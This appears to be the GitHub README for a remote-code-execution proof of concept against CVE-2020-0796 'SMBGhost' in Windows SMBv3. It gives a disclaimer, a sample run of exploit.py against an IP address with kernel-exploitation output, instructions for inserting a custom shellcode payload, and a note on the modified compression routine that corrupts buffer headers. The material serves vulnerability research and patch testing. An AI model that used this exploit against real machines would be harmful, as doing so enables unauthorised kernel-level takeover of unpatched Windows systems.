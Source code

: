 # SMBGhost_RCE_PoC

RCE PoC for CVE-2020-0796 "SMBGhost"

For demonstration purposes only! Only use this a reference. Seriously. This has not been tested outside of my lab environment. It was written quickly and needs some work to be more reliable. Sometimes you BSOD. Using this for any purpose other than self education is an extremely bad idea. Your computer will burst in flames. Puppies will die. 

Now that that's out of the way....

Usage ex: 

```SMBGhost_RCE_PoC % python exploit.py -ip 192.168.142.131
[+] found low stub at phys addr 13000!
[+] PML4 at 1ad000
[+] base of HAL heap at fffff79480000000
[+] ntoskrnl entry at fffff80645792010
[+] found PML4 self-ref entry 1eb
[+] found HalpInterruptController at fffff79480001478
[+] found HalpApicRequestInterrupt at fffff80645cb3bb0
[+] built shellcode!
[+] KUSER_SHARED_DATA PTE at fffff5fbc0000000
[+] KUSER_SHARED_DATA PTE NX bit cleared!
[+] Wrote shellcode at fffff78000000a00!
[+] Press a key to execute shellcode!
[+] overwrote HalpInterruptController pointer, should have execution shortly...
```

Replace payload in USER_PAYLOAD in exploit.py. Max of 600 bytes. If you want more, modify the kernel shell code yourself. 

lznt1 code from [here](https://github.com/you0708/lznt1). Modified to add a "bad compression" function to corrupt SRVNET buffer
header without causing a crash.

See this excellent write up by Ricera Security for more details on the methods I used: 
https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html

